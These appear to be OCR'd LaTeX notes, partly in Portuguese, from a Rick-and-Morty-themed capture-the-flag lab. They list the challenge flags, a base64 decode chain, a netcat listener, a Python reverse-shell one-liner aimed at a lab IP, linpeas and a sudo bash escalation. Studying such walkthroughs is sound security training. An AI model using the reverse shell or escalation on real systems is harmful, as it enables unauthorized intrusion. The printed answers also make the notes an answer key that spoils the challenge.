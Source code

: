 \documentclass[11pt]{article}
\begin{document}
\begin{lstlisting}

Sup3rS3cretPickl3Ingred.txt:mr. meeseek hair
clue.txt:Look around the file system for the other ingredient.

<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkU
xV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
\end{lstlisting}

What is the first ingredient Rick needs?:mr. meeseek hair

 \begin{verbatim}

"cat", "head", "more", "tail", "nano", "vim", "vi" nao est\ao disponiveis

echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVk
UxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWT
VVWaGVqQT0== | base64 -d | base64 -d | base64 -d |
base64 -d | base64 -d | base64 -d |
base64 -d  ----> rabbit hole                                                                               

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

ip addr show tun0
       
nc -lnvp 9999    

command painel:
python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.9.46.242",9999));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
\end{verbatim}


\begin{figure}[h]
    \includegraphics[width=1\textwidth]{imgs/Screenshot_2021-07-14_10_02_20.png}
    \centering
    \caption{Reverse Shell}
\end{figure}
 \begin{verbatim}

usar o linpeas para descobrir vunerabilidades

sudo bash 

ler o conteudo dos ficheiros

cat 3rd.txt --> fleeb juice

Whats the final ingredient Rick needs?: fleeb juice

Whats the second ingredient Rick needs?: 1 jerry tear
\end{verbatim}
\end{document}
